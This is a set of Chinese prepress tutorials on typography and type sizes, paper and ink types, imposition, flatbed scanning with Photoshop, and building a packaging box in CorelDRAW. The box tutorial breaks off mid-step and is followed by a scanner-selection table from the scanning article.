对于想由计算机平面设计行业转入到印前作业的设计人员来说，首要的任务就是在接触印前工作之后，要尽快地掌握印刷专业知识，否则便极有可能无法开展工作。下面笔者根据本人的工作经验和体会，将一些初学者经常碰到的问题进行一些简单的归纳，希望能对你有所帮助。

### 一、字符的知识

文字是用来记录和传达语言的书写符号。印刷中用的字符可以分为字种、字体、字号等内容。

### (一)字种与字体

在国内的印刷行业中，字种主要有汉字、外文字、民族字等几种。汉字又包括宋体、楷体、黑体等。外文字又可以依字的粗细分为白体和黑体，或按外形分为正体、斜体、花体等等。民族字是指一些少数民族所使用的文字，如蒙古文、藏文、维吾尔文、朝鲜文等。

宋体是印刷行业应用得最为广泛的一种字体，根据字的外形的不同，又分为书宋和报宋。宋体是起源于宋代雕版印刷时通行的一种印刷字体。宋体字的字形方正，笔画横平竖直，横细竖粗，棱角分明，结构严谨，整齐均匀，有极强的笔画规律性，从而使人在阅读时有一种舒适醒目的感觉。在现代印刷中主要用于书刊或报纸的正文部分。

楷体又称活体，是一种模仿手写习惯的字体，笔画挺秀均匀，字形端正，广泛地用于学生课本、通俗读物、批注等。

黑体又称方体或等线体，是一种字面呈正方形的粗壮字体，字形端庄，笔画横平竖直，笔迹全部一样粗细，结构醒目严密。黑体适用于标题或需要引起注意的醒目按语或批注，因为字体过于粗壮，所以不适用于排印正文部分。

仿宋体是一种采用宋体结构、楷书笔画的一种较为清秀挺拔的字体，笔画横竖粗细均匀，常用于排印副标题、诗词短文、批注、引文等，在一些读物中也用来排印正文部分。

美术体是指一些非正常的特殊的印刷用字体，一般是为了美化版面而采用。美术体的笔画和结构一般都进行了一些形象化，常用于书刊封面或版面上的标题部分，应用适当，可以有效地增强印刷品的艺术品味。这类字体的种类非常广泛，如汉鼎、文鼎等字库中的字体。

### (二)字号

字号是区分文字的大小的一种衡量标准，国际上通用的是点制，在国内则是以号制为主，点制为辅。号制是采用互不成倍数的几种活字为标准的，根据加倍或减半的换算关系而自成系统，可以分为四号字系统、五号字系统、六号字系统等。字号的标称数越小，字形越大，如四号字比五号字要大，五号字又要比六号字大等。

表1 字号换算
| 字号 | 点数 | 大小/mm | 倍数关系 |
| :--- | :--- | :--- | :--- |
| 特大号 | 63 | 22.05 | 五号字的六倍 |
| 特中号 | 56 | 19.60 | 四号字的四倍 |
| 特初号 | 48 | 16.80 | 小四号字的四倍 |
| 特 号 | 45 | 15.75 | 小五号字的五倍 |
| 小特号 | 42 | 14.70 | 五号字的四倍 |
| 初 号 | 36 | 12.60 | 小五号字的四倍 |
| 小初号 | 30 | 10.50 | 七号字的五倍 |
| 大 号 | 28 | 9.80 | 小号字的二倍 |
| 小大号 | 24 | 8.40 | 小四号字的二倍 |
| 二 号 | 21 | 7.35 | 五号字的二倍 |
| 小二号 | 18 | 6.30 | 小五号字的二倍 |
| 三 号 | 15.57 | 5.5125 | 六号字的二倍 |
| 四 号 | 14 | 4.90 | |
| 小四号 | 12 | 4.20 | 七号字的二倍 |
| 五 号 | 10.5 | 3.675 | |
| 小五号 | 9 | 3.15 | |
| 六 号 | 7.785 | 2.75625 | |
| 七 号 | 6 | 2.10 | |

点制又称为磅制(P)，是通过计算字的外形的“点”值为衡量标准。根据印刷行业标准的规定，字号的每一个点值的大小等于0.35mm，误差不得超过0.005mm，如五号字换成点制就是等于10.5点，也就是3.675mm。外文字全部都以点来计算，每点的大小约等于1/72英寸，即等于0.35146mm。
字号的大小除了号制和点制外，在传统照排文字中，则以毫米为计算单位，称为“级(J或K)”。每一

```
1J = 1K = 0.25mm = 0.714点(P)
1点(P)=0.35mm=1.4级(J或K)
```

### (三)版面设计与排版规格

排版时应该根据印刷版面要求进行版面设计。比如书册的印制，制作时需要注意开本的大小，排版的形式(横排或竖排)，正文的字体字号，每页的行数及每行的字数，字与字及行与行之间的空隙，页面的栏数及每栏的字数，栏与栏之间的间距，页码及页码的摆放位置，页眉页脚的位置及大小等。

在进行文字排版时，还要注意一些禁排规定，如在每段的开头要空上两个字位，在行首不能排句号、逗号、顿号、分号、冒号、问号、感叹号以及下引号、下括号、下书名号等标点符号，在行末不能排上引号、上括号、上书名号以及中文中的序号如①②③等，数字中的分数、年份、化学分子式、数字前的正负号、温度标识符以及单音节的外文单词等，都不应该分开排在上下两行。

### 二、纸张

纸张是印前工作人员需要注意的一个重要内容之一。

### (一)纸张的构成

纸张是由植物纤维加入填料、胶料、色料等成分加工提炼的一种物质材料。构成纸张的原材料，主要有稻草、竹木、棉麻及可利用的废料等。根据原料的不同，所构成的纸张的性质也会不同。

填料是为了增加纸张的柔韧性、减少纸的透明度和伸缩性，并使纸张的表面平整均匀而采用的物料，如一般印刷用纸用滑石粉，高级纸用高岭土和硫酸钡等。填料的使用应该适量，一般是占纸张的20%左右，过多则会降低纸张的抵抗力和柔韧性，并会阻碍油墨的吸收，从而造成印刷时的掉粉弊病。

胶料是为了将纸张中的小孔隙进行填塞，以提高纸张的抗水性，也能改善纸张的光泽度、强度并起到防止纸面起毛的作用。常用的胶料有松香、明矾、淀粉等。

色料是为了增强纸张的色泽纯度，大都使用无机颜料或有机染料。

### (二)纸张的规格

纸张根据印刷用途的不同可以分为平板纸和卷筒纸，平板纸适用于一般印刷机，卷筒纸一般用于高速轮转印刷机。纸张的大小一般都要按照国家制定的标准生产。印刷、书写及绘图类用纸原纸尺寸是：卷筒纸宽度分为1575mm、1092mm、880mm、787mm四种；平板纸的原纸尺寸按大小分为880mm × 1230mm、850mm × 1168mm、880mm × 1092mm、787mm × 1092mm、787mm × 960mm、690mm × 960mm等六种。

图书杂志开本及纸张幅面尺寸的标准，国家规定是采用880mm × 1230mm、900mm × 1280mm、1000mm × 1400mm未裁切的单张纸尺寸印刷。由于设备、生产、供应等原因，原787mm × 1092mm、850mm × 1168mm大小的纸张，目前仍可继续使用，但需要注意的是这种尺寸是要逐步淘汰的老标准开本，以后的纸张尺寸将向新的国家标准过渡。

在沿海地区，很多印刷机构还在广泛地采用一些老版纸张，其规格及裁切后的大小如表2所示。

表2 纸张规格
| 开数 | 正度纸张 (单位: mm) | 大度纸张 (单位: mm) | 特度纸张 |
| :--- | :--- | :--- | :--- |
| 全开 | 787×1092 | 889×1194 | 635×889 |
| 2开 | 546×787 | 597×889 | 444.5×635 |
| 3开 | 364×787 | 398×889 | 296.3×635 |
| 4开 | 393.5×546 | 444.5×597 | 317.5×444.5 |
| 6开 | 364×393.5 | 398×444.5 | 296.5×317.5 |
| 8开 | 273×393.5 | 298.5×444.5 | 222×317.5 |
| 16开 | 196.7×273 | 222×298.5 | 158.5×222 |
| 32开 | 136.5×196.7 | 149×222 | 111×158.5 |
| 64开 | 98.3×136.5 | 111×149 | 79×111 |

纸张的重量是以定量和令重表示的。一般是以定量来表示，即我们日常俗称的“克重”。定量是指纸张单位面积的质量关系，用g/m²表示。如150g的纸是指该种纸每平方米的单张重量为150g。凡纸张的重量在200g/m²以下(含200g/m²)的纸张称为“纸”，超过200g/m²重量的纸则称为“纸板”。令重是指每令(500张纸为1令)纸量的总质量，单位是以kg(公斤)计算。根据纸张的定量和幅面尺寸，令重可以采用令重(kg)= 纸张的幅面(m²) × 500 × 定量(g/m²)的公式计算而出。

### (三)印刷中的常用纸

纸张根据用途的不同，可以分为工业用纸、包装用纸、生活用纸、文化用纸等几类，其中文化用纸中又包括书写用纸、艺术绘画用纸、印刷用纸等。在印刷用纸中，又根据纸张的性能和特点分为新闻纸、凸版印刷纸、胶版印刷涂料纸、字典纸、地图及海图纸、凹版印刷纸、画报纸、周报纸、白板纸、书面纸等。另外一些高档印刷品也广泛地采用艺术绘画类用纸。

新闻纸主要用于报纸及一些凸版书刊的印刷，纸质松软，富有弹塑性，吸墨能力较强，有一定的机械强度，能适合各种不同的高速轮转机印刷。这种纸张多以木浆为制造原料，含有较多的木质素及杂质，纸张容易发黄发脆，抗水性极差，故不宜长期保存。

**凸版印刷纸**是应用于凸版印刷的专用纸张，纸的性质同新闻纸差不多，抗水性、色质纯度、纸张表面的平滑度较新闻纸略好，吸墨性较为均匀，但吸墨能力比新闻纸要差。

**胶版印刷纸**是用于胶版(平版)印刷的一种纸张，又分单面胶版纸和双面胶版纸两种，单面胶版纸主要用于印制宣传画单、包装盒等；双面胶版纸主要用于印制画册、图片等。胶版纸质地紧密，伸缩性较小，抗水能力强，可以有效地防止多色套印时的纸张变形、错位、拉毛、脱粉等毛病。能使印刷品保持较好的色质纯度。

**胶版涂层纸**又称为铜版纸，是在纸面上涂有一层无机涂料再经超级压光制成的一种高档纸张，纸的表面平整光滑，色纯度较高，印刷时能够得到较为细致的光洁网点，可以较好地再现原稿的层次感，广泛地应用于艺术图片、画册、商业宣传单等。

**凹版印刷纸**洁白坚挺，具有良好的平滑度和耐水性，主要用于印刷钞票、邮票等质量要求高而又不易仿制的印刷品。

**白板纸**是一种纤维组织较为均匀、面层具有填料和胶料成分且表面涂有一层涂料，经多辊压光制造出来的一种纸张，纸面色质纯度较高，具有较为均匀的吸墨性，有较好的耐折度，主要用于商品包装盒、商品表衬、画片挂图等。

**合成纸**是利用化学原料如烯烃类再加入一些添加剂制作而成，具有质地柔软、抗拉力强、抗水性高、耐光耐冷热、并能抵抗化学物质的腐蚀又无环境污染、透气性好，广泛地用于高级艺术品、地图、画册、高档书刊等的印刷。

### (四)纸张的性能要求

纸张能否顺利地高质量地用于印刷，取决于纸张的印刷适性。印刷对纸张的要求是：纸张的色调尽可能地达到同一质地的色泽纯度，纸张的尘埃度不得超过允许的范围，具有最小的透光率，并有保证正常印刷时的机械强度，纸张的厚度、紧度、结构特性等要在同一印刷批量中保持相同，纸边应为直角且斜度误差不能超过±3mm。

**纸张的平滑度**直接决定着印刷品的印刷品质。平滑度高的纸张在压印时，能较好地与版面进行接触，使印版上的油墨层能够均匀地转移到纸面上，平滑度低的纸张，会因为印刷时表面的不平整，造成压印时版面与纸张的表面接触不均匀，使油墨层转移到纸面上呈现不均匀的现象。如碰上平滑度较低的纸张，可以在印刷时适当地加大印刷时的压力，可以适当地弥补因其表面不平而出现的印迹发虚的现象。

**纸张的吸墨性**主要取决于纸张纤维间的紧密程度（空隙的大小）。当纸张纤维间的空隙小时，因帚化纤维过少，使纤维毛细管的作用受到影响，造成纸张对油墨的吸收性降低。如果纸张纤维间的空隙过大，会因吸收连接料过多而造成油墨颜料一并被吸收，使印刷品出现透印的现象。

**纸张的弹性和塑性**是指纸张抵抗变形的能力。纸张在堆放、印刷等各种过程中，会因为周边环境的不同而发生各种变化。如在外力的作用下，会瞬时地改变自己的形状和尺寸，而当外力停止时，纸张又会恢复到原来的形状和尺寸，这种变形的过程称为敏弹性变形。当纸张受到外力时在一定时间间隔内改变了自己的形状和尺寸，外力停止作用时则慢慢地恢复到原来的形状和尺寸；这种变形的过程称为滞弹性变形。当外力取消之后，纸张还是保持在受外力作用时造成的形状与尺寸变形的状态时，称为塑性变形。敏弹性变形、滞弹性变形是一种可逆性的变形，而塑性变形是不可逆的变形。

**纸张的含水量**的多少，直接影响着印刷品的质量，含水量过多，纸张的强度会降低，在外力的作用下，纸张纤维会被拉出，使塑性变形增强，使印迹的干燥速度受到影响。如含水量过少，纸张会发脆，容易造成破损，产生静电等。由于纸张的含水量与周围的环境有很大的相关性，所以对于印刷机房的湿度和温度都要进行恰当的安排，以保持纸张含水量的平衡。

### 三、油墨

油墨是一种由颜料微粒、填料、附加料等均匀地分散在连接料中，具有一定粘性的流体物质。

油墨可以分成不同的种类。常用的有凸版印刷用油墨、平版印刷用油墨、凹版印刷用油墨、丝网孔版印刷用油墨、特殊功能性油墨等。

**凸版印刷用油墨**根据不同的特点又可以分为铅印书刊油墨、铅印彩色油墨（铜版油墨）、铅印塑料油墨、橡皮凸版塑料油墨（柔性版塑料油墨）、凸版水型油墨、凸版轮转印报油墨等。这类油墨基本上都是属于渗透干燥型油墨，在印刷过程中要注意附着不良、粉化、污损等弊病的出现。

**平版印刷用油墨**包括种种胶印油墨、平版印铁油墨、平版光敏油墨、胶印热固型油墨等。平版印刷用油墨要求颜色的着色力、耐水性较高，具有良好的流动性及干燥速度。

**凹版印刷用油墨**包括各种照相凹版油墨、雕刻凹版油墨、凹版塑料薄膜油墨等。

**丝网孔版印刷用油墨**包括丝印油墨、丝网塑料油墨、油性誊写油墨、水型誊写油墨等。

除了上述几种常用油墨外，还有一些可以起到某种特殊效果的油墨，如微胶粒油墨、金银色油墨、荧光油墨、磁性油墨、安全防伪油墨、导电油墨、复写油墨、监视油墨、温度指示用油墨、显色油墨、食用油墨等。

### 四、拼版的简易方法

拼版就是将一些做好的单版，组排成为一个印刷版的过程。在拼版之前，需要根据后续工作的方式及器材选择不同的组版方式，特别是一些需要进行折页的书册小本子之类的印刷物，更是要根据所处印刷厂的折页机等工具进行恰当的方式选择。

一般常用的拼版方式可以分为以下几种。

单面式是指那些只需要印刷一个面的印刷品，如海报等。

双面式俗称“底面板”，指正反两面都需要进行印刷的印刷品，如一些小宣传单、小幅海报、卡片等，如图1所示。


横转式俗称“自翻版”、“就版翻面”，适用于杂志、书刊类的印刷品，比如有一本16开的杂志封面，分有封一、封二、封三、封四等四个版面需要进行印刷，在拼版时将封一和封四、封二和封三横向拼在一起，再将封一和封四、封二和封三头对头地拼在一个四开的版面上进行印刷，待一面印刷完成后，将纸张横转180度，用反面继续印刷，完成之后，将印刷品从中间切开，就可以得到两件完全一样的印刷品了，如图2所示。


翻转式使用同一个印刷版在纸张的一面印刷之后，再将纸张翻转印刷背面，以纸张的另一长边作为“咬口边”。这种方法俗称“打翻斗”，但现在已经很少有人再用这种方式了，如图3。


同一份印刷品，因为使用了不同的拼版和印刷方式，预算拼版时对书页的安排都会不同。设想有如图4的一叠稿件，对于这样的印刷品，可以采用不同的拼版方式。


如图5所示是采用双面式（底面板）的拼版方式，有8页安排在正面，另8页安排在背面，经过正反两面印刷，折叠装订之后，就可以得到一份16页的印刷品。这种方式适用于大幅面的折页机用。


如图6所示是采用横转式（自翻版）的拼版方式，将两组8页分别安排在两个印版上，分别以自翻版的方式进行印刷，然后将纸从中间切开，各自分成两叠，再经过折叠装订后就组成了一份16页的印刷品。这种方式适用于小幅面的折页机用。


（文/5D多媒体 朱斌）

## 图像扫描技术讲解

学习图像扫描技术是切入排版设计这一行的一个捷径，掌握了它也就在印前工作中有了立足之地。本文将从不同的角度对扫描技术做一些探讨，并通过实例讲解使你能够轻松掌握图像扫描的一般技术。

### 一、扫描仪的种类

扫描仪种类很多，有纸张输入扫描仪、手持扫描仪、鼓形扫描仪和平板扫描仪等。一些低档的扫描仪如手持扫描仪价格虽然便宜，但是扫描质量非常差，一般应用于超市识别产品的条形码等对扫描精度要求不高的场所。如果想得到专业化的数字图像，这类扫描仪自然不在考虑之列了。

另外一个极端就是鼓形扫描仪，它采用光电倍增管技术(PMT)，能获得很高的扫描质量，像彩色印刷制作精美的平面广告、艺术图册、书刊杂志的封面等作业中，鼓形扫描仪是用得最多的一种。不过这类扫描仪价格昂贵，是一般人不敢问津的。若想获得鼓形扫描仪的高质量，一个折衷的办法就是，花钱去一些拥有此类高档设备的服务部门，请他们代劳。

对于那些没有足够的经济能力，却又希望拥有一台能获得专业数字图像扫描设备的用户，一台中高档的平板式扫描仪无疑是最佳选择。比较而言，它要便宜许多，而且容易使用。它的物理尺寸与一般的复印机差不多，最高可达到48位真彩色，3600dpi以上的分辨率，在某些领域已经可以替代鼓形扫描仪了。


还有一种专门扫描胶片(如照片的底片)的透射稿扫描仪。当然，也可以在平板扫描仪上安装透射稿扫描装置，使其具有扫描胶片的功能，不过它的效果不如专门的透射稿扫描仪好。

### 二、扫描仪质量的标准

如果扫描设备达不到要求的标准，无论你如何深入地了解扫描原理和进行精细地操作，都不可能获得优质的数字图像，这就是所谓的“先天不足”。下面我们就来看看评判扫描仪质量的几个常用标准。

从硬件设备的角度来看，电荷耦合技术、光学分辨率、最大成像面积、位深度是影响扫描仪质量的几个关键性因素。

### (一)电荷耦合技术(CCD)

平板式扫描仪都是采用电荷耦合器CCD来接收从一个源图像中反射过来的光线。这个电荷耦合器由许多非常非常小的探测器构成接收单元，每个单元接收一束光线信号，一束光线信号单位就构成了计算机中一幅数字图像中的一个像素。

电荷耦合器件对环境电噪声很敏感，如果抗噪声性能很差，就会使得探测到的颜色值失真。可见电荷耦合器件的性能优劣是与扫描仪质量密切相关的。


### (二)分辨率与采样率

初次涉及计算机图形的读者会发现，分辨率是一个非常混乱、不易理解的概念。根据笔者个人的经验，先理解像素的概念，对真正弄懂分辨率会大有帮助。

像素是构成一个电脑位图的最小单位，它事实上就是一个一个很小的方块点。在Photoshop中用放大镜工具将图像放到足够大的时候，就能够清清楚楚的看到这些像素点了。


一幅图像每英寸上能排列的像素数就是这幅图像的分辨率了。比如说，分辨率是72dpi，意思就是这个图像每一英寸上排有72个像素，这个图像每一平方英寸的面积上就排列有72×72个像素(dpi是Dot Per Inch的英文缩写，意为每英寸上的点数。1英寸约等于2.54厘米)。


像素点越小每英寸长度上能排列的像素点就越多，图像也就越精细。反之，图像就会越粗糙。同一幅图像在尺寸大小不变的情况下改变其分辨率(一个为240dpi，一个为24dpi)的效果比较，如图4、图5所示。

现在，再来理解另一个概念采样率就很容易了。扫描时扫描仪在原图像上，每英寸取样的单位数即采样率。如果每平方英寸采样72×72个单位(像素)，我们就说，扫描仪采样的分辨率是72。以此类推，扫描分辨率是150、300、600，分别表示每平方英寸采样150×150、300×300和600×600个像素。所谓的“光学分辨率”指的是一台平板扫描仪的光学系统最大可以达到采样的实际数据量。它能决定光学分辨率的各种因素，因扫描仪设备类型的不同而不同。比如说，一个最宽能接受8.5英寸大小原图像的扫描仪内，有一个5100单元的电荷耦合阵列，那么它最高水平的光学分辨率就是5100/8.5=600dpi了。显然，光学分辨率越高，扫描出的数字图像的质量就越有保障。在扫描仪的广告宣传中，我们要随时注意一些商人的欺骗行为，他们常说扫描分辨最高能达到多少多少，注意这里缺少了“光学”一词，可能并不是指最高的光学分辨率，而是包括了内插分辨率的因素。内插分辨率并没有真正增加更多的图像细节，只不过是系统通过计算相邻的像素之间颜色和灰度级的平均值，然后在它们之间插入这个平均值的新像素，使得图像质量稍有改善而已。

### (三)最大成像面积

扫描仪最大能扫多大尺寸的图像，即是扫描仪的最大成像面积。一般的平板扫描仪的成像面积尺寸和一台复印机差不多，从8.5×11到11×17(平方英寸)不等。

### (四)位深度

位深度是指扫描仪在捕获到的每个像素上可以检测出的最大颜色值或者灰度级。一个1位的扫描仪最大色调只能是2的1次方即2级(黑、白两色)，一个8位灰度扫描仪可再现2的8次方即256种灰度级，而一个24位的彩色扫描仪则可以再现原图像中2的24次方即16777216种可能的颜色值。丰富的色彩层次，能使颜色的过渡平滑自然，较少的色彩层次则不能很好地描述照片中的连续色调。

### (五)动态范围

动态范围是衡量扫描仪专业水准的重要参数，能从整体上反映高端扫描仪与普通扫描仪的最大区别。

动态范围也称为密度范围，是指扫描仪能够获取的色调范围，也就是从接近纯白到纯黑之间的范围。动态范围更大，才能更好更正确地捕捉到原图像中各种色调的层次，从而得到更多图像细节。

平板扫描仪的动态范围一般在3.0~3.7之间，而高端的平板扫描仪和滚筒扫描仪可达到4.0以上。对一般用户来讲，能达到3.2左右就差不多够用了。

### 三、怎样选择扫描仪

选择什么样的扫描仪才合适呢？笔者认为不要最好，只要够用。在前面，我们已经了解了衡量扫描仪质量的一些标准。下面列出一些印前专家根据用户不同的工作需要和扫描仪能力，提出的选择扫描仪的首选方案，希望能对大家有所帮助(见表1)。

### 四、扫描实例

扫描不只是一种技术，也是一种艺术。任何一次草率的扫描，都会为以后的图像处理工作留下无穷后患，甚至得从头再来，这在时间就是金钱的当代社会，无疑是一种巨大的浪费。所以在你有机会使用扫描仪，或者拥有了自己的一台扫描仪时，笔者奉劝跃跃欲试的你，还是先按捺下激动的心情，仔细阅读下面的内容，或许会对你有所裨益的。

### (一)准备好扫描仪和软件

准备好一台平板扫描仪。不仅是因为扫描仪价格不菲，更重要的是为了得到高质量的数字图像，我们也应该对它备加爱护。首先应该将它安放在一个非常稳定的台面上，以防震动引起扫描的突跳，影响扫描质量，也容易损坏扫描仪的器件。其次，一些环境因素也很重要，应尽可能保持室内空气的洁净度，远离那些可能引起电气干扰的器件。

按照产品说明书安装好扫描仪并安装随带的驱动程序。

扫描前检查数据线和电源线是否插好。最好在让扫描仪正式工作之前半小时就打开电源开关预热，那样扫描的效果会更好更稳定。

一般购买扫描仪的时候，厂家会同时附赠一套扫描软件。可以按照说明书来安装扫描软件。

图片扫描完成后，肯定还需要进行一些后期处理，像裁剪、调整色彩亮度、调焦，设置黑白场等。这就需要准备一款图像处理软件，笔者推荐使用Photoshop。Photoshop不仅具有强大的图像处理功能，而且它还可以直接在内部调用扫描软件界面。

### (二)保持清洁

检查一下原始图片表面是否干净，扫描仪是非常忠实的，即使是图片上一不小心留下的灰尘，它也会如实记录，也许还会夸大，这将给最终图像的质量带来影响。所以扫描之前最好检查一下原始图片。一般的图片简单处理一下即可，对非常珍贵的图片进行清理工作时，一定要非常当心，以免不小心对图片造成损害。最好用软刷或气吹之类的工具进行小心清理。

除了扫描的图片要保持清洁，平板扫描仪玻璃板也一定要干净，至少每天要清洁一次。可用防静电刷、玻璃清洗剂和扫描仪擦拭布清洁。

### (三)定位图片

将图片正面朝下放在扫描仪玻璃平板的中心位置，尽量让照片与扫描仪的边界保持平行。如果抱着“扫描有点倾斜也无所谓，反正Photoshop有一个旋转命令，再调整过来就行了”这类想法，那真是大错而特错了。其一，重新在Photoshop中进行图片处理，是要费时间的，如果扫描之前稍加注意，就会省事不少；其二，Photoshop的Rotate命令每一次旋转，图像都不可避免地改变和丢失一些原始数据信息。所以若不是出于特别的目的，应尽量将图片摆端正。

### (四)调用扫描软件界面

有两种方法可以调用扫描软件。当扫描软件安装完毕后，一般会在桌面上建立一个快捷方式图标，双击它就可以启动扫描软件了，如果桌面上没有快捷图标，可从“开始” > “程序”中该扫描软件的程序组中执行它。

另一种方法是从Photoshop里调用，扫描仪驱动安装好之后，一般 Photoshop 的 File(文件)菜单下的 Import(输入)项中会出现相应的命令项，点击它即可启动扫描软件了。

本例中的扫描软件为 Epson TWAIN 5，其主界面如图 6 所示。其他扫描软件的用法与其大同小异，读者可以类推。


### (五)选择扫描的色彩模式

典型的扫描模式有线图、半色调图、灰度图、RGB 真彩图等几种。色彩模式的选择，主要取决于我们的最终目的是做什么。如果用作一般的书报杂志的黑白插图，那用灰度模式已经足够。这种模式文件执行速度快，占用空间小。如果是做彩页封面等用途，显然应该选择 RGB 真彩模式，16777216种可能的颜色值，足以模拟生活中任何绚丽的颜色细节了。

如果硬件资源允许，一些将用作黑白插页的彩色原图最好也用 RGB模式来进行扫描。因为 Photoshop 很容易地就能将 RGB 转换成灰度图，而 RGB 原始图像可以作为一个备份，以备作其他用途。当然，假如原图像本来就是黑白图，即使用 RGB 模式扫描也不会得到一个彩色的世界，相反只能浪费硬盘空间和我们的宝贵时间。

+   (1)单击 “图像类型” 按钮，弹出图像类型对话框 (如图7)。


+   (2)在这个窗口中，刚才我们所说的半色调、灰度、RGB 真彩色等术语被变成了更加容易理解的彩色照片、黑白照片等生活化的语言。彩色照片即RGB真彩模式，它又分为 48 位色和 24 位色等几种，本例中选为 24 位色。

在其他一些扫描软件中，操作方法可能略有不同，请参考相应的软件说明书。

### (六)预扫描和定位扫描区域

+   (1)单击 “预览” 框中左侧的 “全页预览” 按钮，将产生一个低分辨率的预览图像，以便于你检查照片的位置和方向。
+   (2)把光标移到预览图像上，按住鼠标左键不放，随着鼠标拖动会拉出一个活动的虚线框，大小合适后，松开鼠标键(如图8)。
+   (3)这个框只是用来定位扫描区域的，如果不合适，还可以修改，只要把光标移到虚线框的边框附近使光标形状改变为双向箭头，这时再按住鼠标左键不放，就能编辑虚线框的大小了。最好让定位框正好圈住你想要的区域，把多余的东西甩到框外去，这样做可以减少文件长度并加快扫描速度。

### (七)选择最佳分辨率

选择最佳分辨率是得到一幅优质的数字图像的关键所在，但它又没有一个“放之四海而皆准”的原则。有些人便想当然地以扫描设备所具有的最高分辨率去扫描。有些人则听天由命，计算机里缺省的分辨率是多高就用多高。这两者的做法都不可取，虽然这种盲目操作偶而也能得到一些非常漂亮的结果，但是失败是经常的。当分辨率过低时，会因为信息量太小而产生明显的锯齿形；分辨率过高，信息量过剩，又会导致不必要的高成本输出，浪费了宝贵的资源和工作时间。

那么，如何才能确定一次扫描的最佳分辨率呢？听从专家们的劝告和工作实践中自己摸索是非常好的，也是非常必要的两种办法。

扫描一幅特定的图像之前，首先要回答好这样几个问题。

+   ①原始图像的尺寸有多大？
+   ②最终图像将输出到什么样的介质上？
+   ③最终输出的尺寸是多大？

下面列举一些在不同的输出介质上专家们建议的分辨率计算法。

+   (1)如果是基于挂网设备的打印输出，建议扫描分辨率为最终图形放大的倍数乘以1.5，再乘以网线密度(lpi)。比如在一台分辨率为1200dpi的激光打印机上，网线密度是85lpi，最终图像放大2倍，那么扫描分辨率应该等于2×1.5×85=254dpi，然后取最接近的扫描仪光学分辨率的约数240dpi(取光学分辨率的约数，有利于计算机的运算，会得到更好的扫描效果)，这就是比较理想的扫描分辨率了。
+   (2)如果是在计算机屏幕上显示，建议扫描分辨率应为显示器的垂直分辨率(像素)除以原图的最窄处的尺寸，比如在一台1024×768的显示器上显示一张4"×6"的照片，扫描分辨率应为768/4=192dpi，取最接近的扫描仪光学分辨率的约数180dpi最为理想。
+   (3)如果是用于视频输出，建议理想的扫描分辨率与用于计算机屏幕输出的原则一样，也是屏幕垂直像素数除以原图最窄处的尺寸。

### (八)色调调整

在Epson TWAIN的扫描窗口中，还可以设置控制亮度(Brightness)、对比度(Contrast)和伽玛(Gamma)值等参数，用以对一幅扫描图像的高亮、中色调及阴影的色调调整(如图9)。


### (九)扫描保存

+   (1)通过上面的步骤，在一切都设置好之后，单击“扫描”按钮开始真正的扫描。
+   (2)扫描图像会直接进入Photoshop中。在Photoshop中执行File > Save命令将图像保存起来，整个扫描工作就可以告一段落了。

### 五、用旧扫描仪也能扫出好的效果

旧的扫描仪，由于顶盖光泄漏、光源老化、电噪音、机械装置老化等的影响，扫描仪读取图像信息时，有些区域可能会发生变异的现象，从而对最终的扫描图像的质量产生不好的影响。所以在使用这类扫描仪之前，应该创建一个扫描仪地图(编者注:对于新的或功能稳定的扫描仪来说，这一方法可有可无，读者可以忽略这一步骤)，以指出图像放在扫描仪的哪一部分区域扫出来的效果最好。

```
(1)找一张干净的白纸放到扫描仪上。
(2)按72dpi/RGB模式，调整为最大扫描幅面，其他保留默认值，进行扫描。
(3)在Photoshop中打开刚才扫描的图像。这张图像应该是纯白色的，但是因为旧扫描仪功能不稳，会在画面上产生浅色调区。
(4)执行Image > Adjust > Threshold等命令调整图像。任何没有完全扫描成白色的区域都会变成黑色斑点。
(5)打印图像，将相对较干净的地方标出来。以后扫描时，尽量记住将图片放在相对比较干净的那个区域进行扫描，就可以得到好一点的效果了。
```

(文/梦寻)

## 图解包装盒的制作

包装是工业上应用得非常广泛的一种防护材料，包装的设计制作则是平面设计中很重要的一门课题。在此笔者献上一篇简易教程，希望能对你有所帮助。

在此选用的软件是 CorelDRAW 9.0 简体中文版。我们假定需要包装的物体是一个 78mm × 50mm × 63mm 的小工业产品。

+   (1)选择矩形工具，在任意空白处画一矩形，调整大小为 80mm × 64mm。
+   (2)选中矩形，用鼠标左键按住矩形右边中间的锚点向左边拖拉，到一定大小时依然按左键不放并按下右键，即复制出了另一个矩形，调整这个新建立的矩形尺寸大小为 64mm × 52mm 大小。
+   (3)用 Shift+ 单击的方法选中两个矩形，按 C、L 键使两个矩形靠左边居中对齐。选中最后建立的那个小一点的矩形，按住 Ctrl 键后再用鼠标向左边拖拉，当在左边出现这个矩形时放开鼠标键，即将该小矩形翻到左边去了，而两个矩形也是紧紧相靠在一起的，如图 1 所示。


+   (4)选择一幅已处理好的图片，用右键拖拉该图片到 80mm × 64mm 的那个矩形上面，放开右键会弹出一个快捷菜单，从中选择“置入于图框精确裁剪”项，如图 2 所示，图片即居中放进矩形框中（如果图片比矩形框要大，可以将图案调整位置，方法是点右键选择“编辑内容”调好后再选“结束编辑”就可以了）再在左边小一点的图框中输入标识或其他厂商信息内容。


+   (5)选中两个矩形，从属性工具栏的尺寸栏可以看出两个矩形现在是 132mm × 64mm。调用“安排”菜单中的“变形”对话框，在“位置”水平选项中调整数值为 -132，然后点击一下“应用至再制物件”，即可在左边重新复制出和刚才所做一样的两个矩形来，并且已填好图案，如图 3 所示。至此，一个小包装的主体工程差不多完成了，下面接着做包装的翻盖部分。
+   (6)使用矩形工具画一个矩形，将其大小调整为 80mm × 52mm，选中这个矩形然后再选择填有图案的那个 80mm × 64mm 的矩形，按键盘 C、T 键使它们居中右齐。再选中 80mm × 52mm 的矩形，按住 Ctrl 键用鼠标拖动底边上的锚点向上翻，待该矩形翻到上面之后放开鼠标键，则该矩形即位于填有图案的那个矩形的上边去了，如图 4 所示。
+   (7)再画一个小矩形，将其大小调整为 80mm ×

要扫描的对象 | 印刷方法 | 反射稿／透射稿 | 最大lpi | 扫描仪类型
:--- | :--- | :--- | :--- | :---
只扫文本(OCR) | N/A | 反射稿 | N/A | 低端平板，300dpi，24或30位彩色
单色半色调 | 报纸 | 二者都有 | 100 | 中档平台，带透射稿装置，300dpi，30位彩色
单色半色调 | 在非涂料纸上快印 | 反射稿 | 133 | 中档平台，600dpi，30位彩色
全彩色 | 胶印 | 反射稿 | 133 | 中档平台，600dpi，36位彩色
全彩色 | 胶印 | 反射稿 | 175 | 中、高档平台，600～1200dpi，36位
